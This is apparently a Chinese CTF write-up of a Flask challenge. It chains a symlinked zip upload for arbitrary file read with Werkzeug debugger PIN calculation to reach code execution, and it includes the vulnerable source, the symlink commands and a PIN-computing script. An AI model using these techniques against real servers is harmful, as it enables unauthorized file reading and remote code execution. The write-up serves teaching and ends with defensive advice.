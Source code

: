 ## 考点

后端使用系统调用进行文件解压操作从而通过软连接进行任意文件读，flask框架下debug模式进行rce。

## 工具

python环境

## 步骤

提供了一个能对压缩包进行解压的功能，上传软链接文件会在解压时候软链接到服务端对应文件从而进行任意文件读。

```shell
ln -s $you_want_do_read $gen_file
zip -y $gen_file.zip $gen_file
```

读到源码`/opt/app/app.py`:

```python
# -*- coding: utf-8 -*-
from flask import Flask, render_template,redirect, url_for, request, Response
import uuid
import random
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET','POST'])
def index():
    error = request.args.get('error', '')
    if error == '1':
        return render_template('index.html', forbidden=1)
    return render_template('index.html')


@app.route('/upload', methods=['POST','GET'])
def upload_file():
    if 'the_file' not in request.files:
        return redirect(url_for('index'))
    file = request.files['the_file']
    if file.filename == '':
        return redirect(url_for('index'))
    if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
        return 'This file is not a zipfile'

    extract_path = file_save_path + '_'
    file = ''
    os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
    dir_list = os.popen('ls ' + extract_path, 'r').read()
    print(dir_list.split())
    for dir in dir_list.split():
        if '../' in dir:
            os.system('rm -rf ' + extract_path)
            os.remove(file_save_path)
            return redirect(url_for('index', error=1))
        file += open(extract_path + '/' + dir, 'r').read()
    os.system('rm -rf ' + extract_path)
    os.remove(file_save_path)

    return Response(file)


if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True, port=10008)
```

注意到开启了debug模式，我们想办法产生报错进入报错界面，方法很多，简单列举几种：

- 注意到这段代码对ls的结果进行了split，我们可以传入文件名带空格的文件，使得读取失败：

  ```python
      for dir in dir_list.split():
          if '../' in dir:
              os.system('rm -rf ' + extract_path)
              os.remove(file_save_path)
              return redirect(url_for('index', error=1))
          file += open(extract_path + '/' + dir, 'r').read()
  ```

- 软链接一个服务端不存在的文件产生报错

- 软链接`/flag`爆`Permission denied`错（大部分爆的这个错）

进入debug界面后，我们只需要拿到pin码就可以任意执行python代码了，而pin码是可以通过读取相应文件配置计算出来的，可以参考这篇博客：[Flask渗透01：debug模式中的RCE | Akiba's blog (anzu.link)](https://anzu.link/pages/204626/#pin码生成)

- `username` 
- `modname`
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))`
- `getattr(mod, '__file__', None)`
- `str(uuid.getnode())`
-  `machine_id`

计算exp如下：

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'friday'# username    
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]
mac = '02:42:ac:11:00:04'
temp = [int(i,16) for i in mac.split(':')]
mac = int(''.join([bin(i).replace('0b','').zfill(8) for i in temp]), 2)

print(mac)
private_bits = [
    str(mac),# str(uuid.getnode()),  /sys/class/net/ens33/address
    '72156c4a72960ef552cb8b2cc9438891'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
# 502-646-014
```

算得pin码，成功rce：

```python
import os
os.popen("/readflag").read()
```

## 总结

进行解压操作请使用zipfile库进行解压，不要使用系统调用，另外用debug模式来进行release属于纯脑瘫行为。
